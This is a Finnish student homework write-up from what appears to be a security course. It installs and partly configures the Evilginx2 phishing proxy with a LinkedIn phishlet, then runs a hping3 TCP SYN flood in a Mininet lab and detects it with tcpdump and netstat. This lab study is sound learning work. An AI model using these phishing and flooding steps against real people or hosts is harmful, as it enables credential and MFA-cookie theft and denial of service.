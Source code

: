 # h5 

## a) Tutustu evilginx2

Evilginx2 on itsenäinen man-in-the-middle -hyökkäyskehys, jota käytetään sisäänkirjautumistietojen sekä istuntoevästeiden kalasteluun mikä mahdollistaa kaksivaiheisen todennuksen ohituksen.

Evilginx2 asennukseen löysin ohjeet: https://help.evilginx.com/community

Ohjeen mukaan tuli ensin asentaa 
- Golang version 1.18 or above.
- Node.js version 14.17.0 or above. You can use nvm for managing multiple Node versions on a single machine. Node.js is only required for running Evilpuppet.

Golang [asennus](https://go.dev/doc/install	):

    sudo rm -rf /usr/local/go 
    sudo tar -C /usr/local -xzf go1.24.2.linux-amd64.tar.gz
    export PATH=$PATH:/usr/local/go/bin
    go version

![1](https://github.com/user-attachments/assets/4f41cffa-48ca-49d4-8570-a72fc97c00e4)

Nodejs [asennus](https://nodejs.org/en/download/):

    # Download and install fnm:
    curl -o- https://fnm.vercel.app/install | bash
    # Download and install Node.js:
    fnm install 22
    # Verify the Node.js version:
    node -v # Should print "v22.15.0".
    # Verify npm version:
    npm -v # Should print "10.9.2".

![2](https://github.com/user-attachments/assets/714f629b-2d83-4914-9a6a-7f75c0bb6031)

![3](https://github.com/user-attachments/assets/235cf3cc-28ef-484d-a01f-c46c5d230abe)

Tämän jälkeen ohjeistus käski make komennolla kääntää (buildaa) ohjelma. Make ei toiminut, joten käynnistin koneen uudelleen jolloin make toimi. Alla olevassa kuvassa nähdään, että build-kansio muodostui.

![4](https://github.com/user-attachments/assets/b73d2100-e7fe-4a82-90db-b5f6e22b3079)

Seuraavaksi piti kopioida Evilginx2:n itse allekirjoittaman juurivarmenteen (CA certificate) koneen luotettujen varmenteiden hakemistoon ja päivittää luotettujen varmenteiden tietokanta.

![17](https://github.com/user-attachments/assets/6b614695-418f-4ef8-8a6a-9f59f2c67ab1)

Sitten oli deploymentin aika. Deploymenttiin oli komento:

    sudo ./build/evilginx -p ./phishlets -t ./redirectors 127.0.0.1:33500 -developer
    
![5](https://github.com/user-attachments/assets/f642caae-6c4c-4142-9c49-a4fdd0e04231)

Tämän jälkeen ohjeistuksessa oli asettaa domain ja ipv4.

    config domain not-a-phish.com
    config ipv4 1.2.3.4

Sen jälkeen olisi vuorossa phishlets. Tähän oli annettu komento:

    phishlets hostname linkedin totally.legit.linkedin.not-a-phish.com

Tässä kohdassa jäin jumiin. Ilmeisesti tuota linkeid phishlets ei ole vielä olemassa, joten komentoa ei pystynyt ajamaan. 

![6](https://github.com/user-attachments/assets/859d4d95-d9cf-4eb6-b8c0-18aac6623b35)

Katselin tähän [miten sellaisen voisi tehdä](https://www.youtube.com/watch?v=sZ22YulJwao). En kuitenkaan siinä hetkessä tullut viisaammaksi.

Katsoin vielä myöhemmin, että esimerkiksi [täältä](https://github.com/An0nUD4Y/Evilginx2-Phishlets) löytyy pishlettejä. Hain sieltä linkedin.yaml ja laitoin sen kansioon evilginx2/phishlets/. Käynnistin evilginx2 uudelleen ja phislet tuli heti alussa näkyviin.

![15](https://github.com/user-attachments/assets/f283c7a5-a310-4e4e-ab93-ae301d5ebe5a)

Koitin tämän jälkeen jatkaa ohjeiden mukaan mutta en päässyt tästä eteenpäin.

![16](https://github.com/user-attachments/assets/0ff93290-4ee1-4bc2-8a56-fa263cb1b4f3)

Tarkoituksena olisi siis luoda sivusto, jolle uhri ohjataan. Mikäli olen ymmärtänyt oikein niin tässä uhri klikkaa linkkiä, Evilginx vastaanottaa pyynnön ja forwardoi sen aidolle linkedin.com-sivulle. Uhri näkee tämän aidon sivun ja syöttää tunnuksen ja salasanan sekä MFA-koodin ja istuntoevästeen.

## b) Sinulla on käytössäsi mininet ympäristö. Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen.

Kysyin tehtävään apua ChatGPT:ltä:  "*Minulla on käytössäni mininet ympäristö. Kuinka luon ympäristön, jossa voin tehdä TCP SYN-Flood hyökkäyksen.*"

ChatGPT ehdotti luomaan ympäristön, jossa on yksi hyökkääjä (h1), yksi uhri (h2), ja kytkin (s1).

    sudo mn --topo single,2 --mac --switch ovsk --controller=remote

En kuitenkaan tämän avulla saanut koneita löytämään toisiaan. 

![10](https://github.com/user-attachments/assets/03da8873-51f5-4810-9530-ba14c18e6b5a)

Väänsin tämän kanssa hyvän tovin ja päätin käyttää tuntitehtävässä 01 ollutta skriptiä, joka loi neljä konetta:

     sudo python hub_topo.py

Näin sain koneet p pingaamaan toisiaan:

    pingall

![11](https://github.com/user-attachments/assets/c8b01382-10b4-42eb-aef9-b9be6dd7a9df)

Seuraavaksi käynnistettiin TCP-palvelin uhrikoneessa (h2) porttiin 80.

    h2 python3 -m http.server 80

![12](https://github.com/user-attachments/assets/d9d98ac2-d151-4990-8b7c-c578f48a4c69)

Tämän jälkeen suorita TCP SYN Flood -hyökkäys hyökkääjältä (h1). Tähän käytetään työkalua hping3, jonka asensin etukäteen:

    sudo apt install hping3

Hyökkäys käynnistetään:

    hping3 -S -p 80 --flood h2

- **-S**: lähettää TCP SYN -paketteja
- **-p 80**: kohdeportti
- **--flood**: lähettää niin nopeasti kuin mahdollista
- **h2**: kohdehost

![13](https://github.com/user-attachments/assets/2c2ec8e5-7d0f-4ee0-bc8e-45f9e3093cf3)

Hyökkäystä pystyy tämän jälkeen tarkkaila netstatilla:

    netstat -ant | grep :80

![14](https://github.com/user-attachments/assets/914d0d14-8593-4cff-9861-5730f738723c)

ChatGPT:n mukaan hyökkäys toimii, näet paljon "SYN_RECV" -tilaisia yhteyksiä.

En kuitenkaan nähnyt näitä kuin välillä. Halusinkin tietää miten muuten voin huomata, että tällainen on menossa. ChatGTP ehdotti komentoa:

    sudo tcpdump -i any port 80 and tcp[13] == 2

- **port 80**: näyttää vain TCP-paketit, jotka menevät porttiin 80.
- **tcp[13] == 2**: tarkistaa paketin, että se on SYN-paketti (koska SYN-paketin TCP headerin 13. bitti on asetettu arvoon 2). 

![8](https://github.com/user-attachments/assets/aec8e32b-b071-4986-b94f-b320c9ee5708)

Yllä hyökkäys ei ollut päällä eikä mitään liikennettä ollut. Alapuolella vastaavasti hyökkäys oli päällä ja rivejä tuli hurjaa vauhtia.

![7](https://github.com/user-attachments/assets/7f9d6cb5-1ae4-4242-a131-6314cb76de41)

## Lähteet:

An0nUD4Y. Evilginx2-Phishlets. GitHub. Saatavissa: https://github.com/An0nUD4Y/Evilginx2-Phishlets. Luettu: 5.5.2025.

Evilginx. Introduction. Saatavissa: https://help.evilginx.com/community. Luettu: 5.5.2025.

Go. Download and install. Saatavissa: https://go.dev/doc/install. Luettu: 5.5.2025.

Kgretzky. Evilginx2 – Advanced phishing with man-in-the-middle attack framework. GitHub. Saatavissa: https://github.com/kgretzky/evilginx2. Luettu 5.5.2025.

Nodejs. Download Node.js®. Saatavissa: https://nodejs.org/en/download/. Luettu: 5.5.2025.

OpenAI. 2025. ChatGPT (versio 4). Keskustelu tekoälyn kanssa, 5.5.2025. Saatavissa: https://chat.openai.com/. Luettu: 5.5.2025.

Youtube. 2023. I Stole a Microsoft 365 Account. Here's How. Saatavissa: https://www.youtube.com/watch?v=sZ22YulJwao. Katsottu: 5.5.2025.
